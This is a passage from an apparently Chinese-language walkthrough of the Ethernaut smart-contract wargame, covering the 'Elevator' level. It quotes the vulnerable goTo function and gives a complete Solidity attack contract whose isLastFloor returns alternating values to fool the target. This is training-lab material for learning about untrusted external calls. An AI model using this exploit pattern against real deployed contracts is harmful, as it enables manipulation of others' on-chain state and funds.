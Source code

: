 最后别忘了通过合约自毁(destruct)收回余额哦～

![状态变化](https://img-blog.csdnimg.cn/a7a36ccb71d14284a6e7a323f2b81efd.png#pic_center)

## 总结
合约的设计应当充分谨慎，任意一点疏忽都会带来很大影响
<hr>

# 11 Elevator
## 创建实例并分析
根据先前的步骤，创建合约实例，其合约地址为`0x02B4EC4229691A89Df659F8AEb1D6267F4bc85BE`。对其合约展开分析，其合约核心代码如下:

```
  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```

由于先判断`isLastFloor`，不满足后才进入`if`结构体，并再次获取`isLastFloor`。该合约于是想当然认为，第二次获取的结果依然不满足，是这样吗？

由于对外调用带来的影响，在外部调用时合约无法控制外部合约的行为。所以我们可以编写智能合约发起相关进攻。

## 攻击合约编写
我们同样在remix里编写攻击合约。如下：

```
pragma solidity ^0.6.0;

interface   Elevator{
    function goTo(uint _floor) external;
}

contract Building {

    Elevator elevatorImpl;
    bool isTop;


    constructor(address addr) public {
        elevatorImpl = Elevator(addr);
        isTop = false;
    }

    function flip() public {
        isTop = !isTop;
    }

    function isLastFloor(uint) public returns (bool){
        bool res = isTop;
        flip();
        return res;
    }
    
    function attack() public {
        elevatorImpl.goTo(1);
    }
}
```